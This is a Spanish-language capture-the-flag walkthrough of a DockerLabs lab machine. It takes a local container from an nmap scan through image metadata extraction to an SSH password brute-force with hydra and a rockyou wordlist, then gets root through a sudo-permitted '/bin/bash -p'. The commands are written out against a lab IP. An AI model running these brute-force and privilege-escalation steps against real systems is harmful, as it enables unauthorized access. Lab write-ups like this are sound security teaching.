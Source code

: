 Maquina borazuwarahctf de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Autor: [BorazuwarahCTF](https://github.com/borazuwarah/)

![Dock](./imagenes/dock.png)

# RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -sVC 172.17.0.2
```

```css
Nmap scan report for 172.17.0.2
Host is up (0.00054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.00 seconds
```

No vemos nada interesante por lo que continuaremos desde el navegador. Al entrar se ve una imagen de un huevo kinder y al hacer un poco de fuzzing no encontramos nada, por lo que sospecho que trata de `Esteganografía`, lo que significa que puede haber archivos escondidos dentro de la imagen. Para hacerlo nos descargamos la imagen y ejecutamos el siguiente comando:

```css
steghide extract -sf imagen.jpeg
```

nos pide un salvoconducto pero como no lo tenemos le damos al enter y nos extrae un archivo llamado "secret.txt", lo leemos y nos dice que no esta ahi la solución pero *si esta en la imagen*, sabiendo esto podemos usar `exiftool`, para hacerlo ejecutamos:

```css
exiftool imagen.jpeg
```

```ruby
ExifTool Version Number         : 12.57
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:08:19 15:39:19-03:00
File Access Date/Time           : 2024:08:19 15:39:19-03:00
File Inode Change Date/Time     : 2024:08:19 15:39:37-03:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Como vemos, ahora si encontramos la solucion pero a medias, ya que nos da un usuario llamado "borazuwarah" pero no la contraseña, por lo que recurriremos a usar hydra, para hacerlo ejecutamos el siguiente comando:

```css
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

```ABAP
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

Como vemos, nos encuentra la contraseña para el usuario "borazuwarah" que es "123456".

# INTRUSION

Ahora simplemente nos conectamos al ssh con:

```css
ssh borazuwarah@172.17.0.2
```

y ponemos la contraseña.

Ya estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ejecutamos `sudo -l` para ver si podemos ejecutar algo como root, y vemos que el binario bash si se puede, por lo que simplemente ponemos:

```ABAP
 sudo /bin/bash -p
```

Y listo, *SOMOS ROOT*.

![root](./imagenes/roott.png)

Gracias por leer.

